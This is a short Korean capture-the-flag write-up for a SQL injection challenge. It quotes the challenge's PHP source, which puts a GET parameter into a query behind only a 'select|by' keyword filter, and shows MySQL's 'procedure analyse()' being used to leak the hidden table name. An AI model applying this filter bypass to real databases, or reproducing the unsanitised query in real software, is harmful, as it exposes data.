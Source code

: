 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-03-51-25.png)


# **Write-Up**

view-source를 클릭하면 answer값이 테이블 명과 같으면 점수를 획득할 수 있다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  include "./tablename.php";
  if($_GET['answer'] == $hidden_table) solve(53);
  if(preg_match("/select|by/i",$_GET['val'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"));
  echo($result[0]);
?>
... 생략 ...
```

procedure analyse()를 이용하여 컬럼이 어떤 DB에 속하는지, 어떤 테이블에 속하는 지, 최솟값 등 알 수 있다. 단, where절이 있을 경우 존재하는 데이터를 넣어야한다.

    mysql> SELECT name FROM test_table WHERE id=1 procedure analyse();
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    | Field_name           | Min_value | Max_value | Min_length | Max_length | Empties_or_zeros | Nulls | Avg_value_or_avg_length | Std  | Optimal_fieldtype      |
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    | test.test_table.name | admin     | admin     |          5 |          5 |                0 |     0 | 5.0000                  | NULL | ENUM('admin') NOT NULL |
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    1 row in set, 1 warning (0.00 sec)

이를 이용하면 table명을 확인할 수 있다.

![](images/2022-01-03-03-52-00.png)

answer에 테이블명을 전달하여 점수를 획득하자.

![](images/2022-01-03-03-52-04.png)